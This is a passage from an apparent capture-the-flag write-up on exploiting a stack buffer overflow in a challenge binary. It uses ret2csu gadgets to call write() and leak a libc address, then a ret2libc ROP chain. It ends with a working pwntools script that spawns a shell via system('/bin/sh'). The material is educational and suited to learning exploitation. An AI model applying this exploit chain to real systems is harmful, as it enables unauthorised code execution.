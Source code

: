 The first set of instructions allows us to populate `rdx, rsi, and edi`, but wait we don't control `r14, r13, and r12d`? Actually, the next set of instructions with the 6 `pop` instructions gives us complete control to pass in `rbx, rbp, r12, r13, r14, and r15`. Essentially, we end up with complete control over `rdx, rsi, edi, rbx, rbp, r12, r13, r14, and r15` which is huge for trying to solve any challenge with ROP. For this writeup, we'll call these two pieces CSU1 and CSU2. If you're curious about this, there are a lot of great resources on `ret2csu` as it's called or you can check out pwntools automation for it [here](https://github.com/Gallopsled/pwntools/blob/91be8af121/pwnlib/rop/rop.py#L1489-L1565).

With any good `ret2libc` problem, we need to leak the address of a function or address that currently resides in LibC. Since this is usually done with the GOT, we'll probably take that road. However, there is only a single output function in this binary that's not the normal `puts()` or `printf()`, so we'll need to figure out what we're allowed to pass to it. The function in the `.extern` sections breaks down the arguments like this:

```c
00404080  extern ssize_t write(int32_t fd, void const* buf, uint64_t nbytes)
```

We need to pass in three arguments:

RDI: A file descriptor (STDOUT in this case)
RSI: A buffer that we want to output
RDX: The length of the buffer we want to write

With this knowledge equipped, we have the gadgets we need and the general flow of our exploit down. It'll look like this:

1. Buffer overflow to gain control flow
2. Use CSU1/CSU2 to populate a `write()` call that prints from the GOT to leak LibC function
3. Compute the LibC base
4. Return to `main`
5. Buffer overflow again to regain control flow
6. Make a ROP chain using LibC gadgets

Locally, I got it working using a chain like this:

```py
# Leak LibC using write()
r.raw(cyclic(520))                  # Overflow
r.raw(p64(0x401254))                # Set RDI to 1 (leak to STDOUT) [at end of CSU2]
r.call(p64(0x401064))               # Call write()
r.call(p64(e.sym['main']))          # Loop to main()
p.sendlineafter(b'>', bytes(r)) 

# Get LibC leak and Parse
stuff = p.recvuntil(b'>')
rand_val = u64(stuff[673:680] + b'\x00' * (8-len(stuff[673:680])))
libc.address = rand_val - 0x223190
r_libc = ROP(libc)

# ROP using LibC
chain = cyclic(520)                                     # Overflow
chain += p64(r_libc.find_gadget(['pop rdi', 'ret'])[0]) # Free RDI
chain += p64(next(libc.search(b'/bin/sh')))             # Add in our data
chain += p64(libc.sym['system'])                        # Call system()
p.sendline(chain)

# Shell!?
p.interactive()
```
